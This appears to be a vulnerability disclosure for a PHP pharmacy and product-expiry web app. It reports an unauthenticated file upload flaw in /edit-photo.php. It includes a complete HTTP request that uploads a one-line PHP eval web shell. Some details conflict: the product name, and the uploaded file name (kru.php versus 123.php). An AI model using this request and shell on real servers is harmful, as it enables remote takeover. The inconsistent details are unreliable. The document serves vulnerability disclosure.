



The Web-based Pharmacy Product Management System has a file upload vulnerability, which can be used by an attacker to upload malicious files to the server without authentication, thereby damaging or controlling the server.


Source code address：https://www.sourcecodester.com/php/17883/web-based-product-alert-system.html


The vulnerability is located in the /edit-photo.php file. In line 14, we start to check the format of the avatar parameter to see if it belongs to the types in line 15. We can see that there are no restrictions on file suffixes or anything else. Execute and save to the uploadImage/ directory if the requirements of the avatar parameters are met.




Vulnerability verification：

```
POST /product_expiry/edit-photo.php HTTP/1.1
Host: 192.168.80.152
Content-Length: 308
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.80.152
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary790G2tc8VtgtAR51
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.80.152/product_expiry/edit-photo.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary790G2tc8VtgtAR51
Content-Disposition: form-data; name="avatar"; filename="kru.php"
Content-Type: image/jpeg

<?php
eval($_POST["pass1"]);

------WebKitFormBoundary790G2tc8VtgtAR51
Content-Disposition: form-data; name="btnsave"


------WebKitFormBoundary790G2tc8VtgtAR51--

```




The path after the file is uploaded is： http://192.168.80.152/product_expiry/uploadImage/123.php





